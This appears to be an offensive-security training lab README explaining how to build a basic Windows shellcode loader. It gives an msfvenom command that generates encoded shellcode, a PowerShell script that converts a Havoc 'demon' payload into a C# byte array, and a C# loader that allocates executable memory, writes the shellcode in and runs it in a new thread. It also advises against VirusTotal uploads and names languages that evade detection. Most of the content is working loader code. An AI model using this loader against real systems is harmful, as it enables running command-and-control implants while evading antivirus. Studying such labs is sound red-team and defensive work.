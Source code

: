 # Lab - Basic Loader

> ***IMPORTANT***: Do not submit any of the training's code to VirusTotal!!!

> When building a shellcode loader, you can use any coding language, c, c++, c#, powershell, rust, golang and so on. In general, detection rates for languages like golang, rust and nim are lower, they are much harder to analyze and reverse than standard c or c# code. In this training we''l be using C as our language, as it is a low level programming language (no CLR that does JIT compiling like with C# or powershell), remember most windows API functions are written in C/C++ as well.

## Advantages of Using C on Windows

### Direct Access to Windows API:
- Native integration with core Windows features like process management, file I/O, and security.
- Low-level control over kernel objects, memory, and hardware for system-level tasks.

### High Performance:
- Extremely fast and efficient due to minimal runtime overhead.
- No garbage collection, allowing full control over memory and reducing latency.

### Portability and Compatibility:
- Backward compatibility with older Windows versions.
- Portable language that can be adapted for other operating systems with adjustments.

### Small Footprint:
- Lightweight programs with smaller memory and disk usage, ideal for resource-limited scenarios.

### Extensive Tooling and Libraries:
- Access to the Windows SDK, C headers, and libraries optimized for Windows development.
- Support for third-party C libraries like OpenSSL and SQLite.

### Control Over System Resources:
- Fine-grained memory management (e.g., `malloc`, `free`) for optimization.
- Direct use of Windows threading and synchronization APIs for efficient multitasking.

Generate havoc shellcode/helloworld dialog

On Kali
```
msfvenom -a x64 --platform windows -p windows/x64/messagebox TEXT="Successful Execution :)" TITLE="CrimsonCORE"  -f csharp -b '\x00\x0a\x0d\x20' 
```

```
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 367 (iteration=0)
x64/xor chosen with final size 367
Payload size: 367 bytes
Final size of csharp file: 1896 bytes
byte[] buf = new byte[367] {0x48,0x31,0xc9,0x48,0x81,0xe9,
0xd7,0xff,0xff,0xff,0x48,0x8d,0x05,0xef,0xff,0xff,0xff,0x48,
0xbb,0x24,0x95,0x1f,0xa0,0x28,0x38,0x25,0xc8,0x48,0x31,0x58,
0x27,0x48,0x2d,0xf8,0xff,0xff,0xff,0xe2,0xf4,0xd8,0xdd,0x9e,
0x44,0xd8,0xc7,0xda,0x37,0xcc,0x59,0x1f,0xa0,0x28,0x79,0x74,
0x89,0x74,0xc7,0x4e,0xf6,0x60,0x09,0xf7,0xad,0x6c,0x1e,0x4d,
0xc0,0x60,0xb3,0x77,0xd0,0x6c,0x1e,0x4d,0x80,0x65,0x09,0xec,
0x80,0x2b,0x22,0x55,0xea,0x60,0xb3,0x57,0x98,0x6c,0xa4,0xdf,
0x0c,0x14,0x59,0x59,0xca,0x08,0xb5,0x5e,0x61,0xe1,0x35,0x64,
0xc9,0xe5,0x77,0xf2,0xf2,0x69,0x69,0x6d,0x43,0x76,0xb5,0x94,
0xe2,0x14,0x70,0x24,0x18,0x42,0x14,0x67,0xb8,0x23,0x3a,0x2a,
0x4d,0x56,0x95,0x1f,0xa0,0xa3,0xb8,0xad,0xc8,0x24,0x95,0x57,
0x25,0xe8,0x4c,0x42,0x80,0x25,0x45,0x5b,0x2b,0x68,0x18,0xae,
0x80,0x3c,0xdc,0x1e,0x70,0x78,0xdb,0x73,0x80,0xdb,0x5c,0x52,
0x91,0xe1,0x79,0xae,0xfc,0xac,0xdd,0x1e,0x76,0x60,0x09,0xe5,
0x89,0xe5,0x5c,0x12,0x0c,0x69,0x39,0xe4,0xf0,0xc4,0xe0,0xee,
0xec,0x2b,0x74,0x01,0xc0,0x61,0xac,0xce,0xd5,0xf0,0x60,0x61,
0x43,0x64,0xb1,0x56,0xa1,0xf8,0x5e,0x64,0x43,0x28,0xdd,0x5b,
0x2b,0x68,0x24,0x6c,0xc9,0xf4,0xd4,0x94,0xa4,0xa0,0x79,0x7d,
0x89,0x7c,0xcb,0x46,0xe8,0x29,0xe8,0x7f,0x89,0x7c,0xd4,0x46,
0xe1,0x72,0x70,0xa6,0x24,0x04,0xd4,0x4d,0x5f,0xc8,0x60,0x64,
0x91,0x7e,0xdd,0x94,0xb2,0xc1,0x73,0xda,0x37,0xdb,0xc8,0xf7,
0xab,0x28,0x38,0x25,0xbd,0x57,0xf0,0x6d,0x93,0x1a,0x16,0x41,
0xa4,0x48,0x95,0x46,0xe1,0x92,0x74,0x52,0xee,0x23,0x6a,0xca,
0xe9,0xef,0xf9,0x25,0xc8,0x24,0x95,0xf7,0xb8,0x28,0x38,0x25,
0x9b,0x51,0xf6,0x7c,0xc5,0x5b,0x4b,0x43,0xbd,0x48,0xb5,0x5a,
0xd8,0x4d,0x5b,0x50,0xbc,0x4d,0xfa,0x71,0x80,0x12,0x11,0x25,
0x92,0xcc,0x99,0x1f,0xa0,0x28,0x7b,0x57,0xa1,0x49,0xe6,0x70,
0xce,0x6b,0x77,0x77,0x8d,0x24,0xd4,0x47,0xe8,0x19,0xf1,0x64,
0x72,0x61,0x16,0x49,0xa7,0xd7,0xed,0x6d,0xf9,0xed,0xd4,0xa5,
0x50,0x9d,0x9a,0x73,0x37,0xf1,0x95,0x1f,0xa0,0x28,0x38,0x25,
0xc8};
```

```
xxd --canonical meterpreter.exe | more  
```

Note on compiling:

![Screenshot](./images/assemblyinformation.jpg)

Convert the shellcode to a CSharp array:

```powershell
$fileName = "C:\temp\demon.x64.bin"
$fileContent = [IO.File]::ReadAllBytes($fileName)
#$fileContent
$csharpformat = '0x' + (($fileContent | ForEach-Object ToString x2 | ForEach-Object { $_ + ',' }) -join '0x')
$csharpformat = $csharpformat.SubString(0, $csharpformat.Length-1)
Write-Output "[+] Shellcode length: $($csharpformat.Length) bytes"
$csharpformat | add-content ($fileName + ".cs")
Write-Output "[+] CSharp Shellcode written to: $filename"
```

Load this shellcode into you basic loader template:

```CSHARP
using System;
using System.Runtime.InteropServices;

namespace ShellcodePayload
{
    class Payload
    {
        [DllImport("kernel32.dll")]
        private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

        [DllImport("kernel32.dll")]
        private static extern IntPtr CreateThread(IntPtr lpThreadAttributes, UInt32 dwStackSize, IntPtr lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

        [DllImport("kernel32.dll")]
        private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        [DllImport("kernel32.dll", SetLastError = true)]
        private static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        private static extern IntPtr GetCurrentProcess();

        static void Main()
        {
            // (1) retrieve shellcode from function
            byte[] shellCode = GetShellcode();

            // Print the shellcode to the screen
            Console.WriteLine("Shellcode: " + BitConverter.ToString(shellCode));

            // (2) allocate memory for shellcode
            UInt32 MEM_COMMIT = 0x1000;
            UInt32 PAGE_EXECUTE_READWRITE = 0x40;
            IntPtr funcAddr = VirtualAlloc(IntPtr.Zero, (UInt32)shellCode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

            // (3) inject shellcode into allocated memory using WriteProcessMemory
            IntPtr bytesWritten;
            bool result = WriteProcessMemory(GetCurrentProcess(), funcAddr, shellCode, (uint)shellCode.Length, out bytesWritten);

            if (!result)
            {
                Console.WriteLine("Failed to write shellcode to memory.");
                return;
            }

            Console.WriteLine($"Successfully wrote {bytesWritten} bytes to memory.");

            // (4) execute injected shellcode
            UInt32 threadId = 0;
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, funcAddr, IntPtr.Zero, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }

        // Function to return the shellcode
        private static byte[] GetShellcode()
        {
            0x56,0x48,0x89,0xe6,...
        };
        }
    }
}
```

To build our own shellcode loader we need 4 functions:

VirtualAlloc (Kernel32.dll)
CreateRemoteThread (Kernel32.dll)
MarshallCopy
WaitForSingleObject (Kernel32.dll)

